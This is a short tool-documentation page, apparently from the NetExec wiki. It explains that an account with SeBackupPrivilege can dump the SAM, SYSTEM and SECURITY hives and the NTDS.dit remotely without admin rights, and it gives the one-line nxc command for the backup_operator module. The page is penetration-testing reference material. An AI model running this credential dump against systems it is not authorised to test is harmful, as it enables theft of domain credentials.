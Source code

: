 # 🆕 Dump with BackupOperator Priv

{% hint style="success" %}
You don't need to local admin privilege on the remote target if you are in SeBackupPrivilege
{% endhint %}

If the controlled user has the SeBackupPrivilege, it can dump SAM, SYSTEM, SECURITY and therefore the NTDS.dit on the target system. No admin privs needed!

```bash
nxc smb <ip> -u username -p password -M backup_operator
```

![image](https://github.com/user-attachments/assets/88d5aa2d-4369-4dac-815f-1dbe80b12ad6)
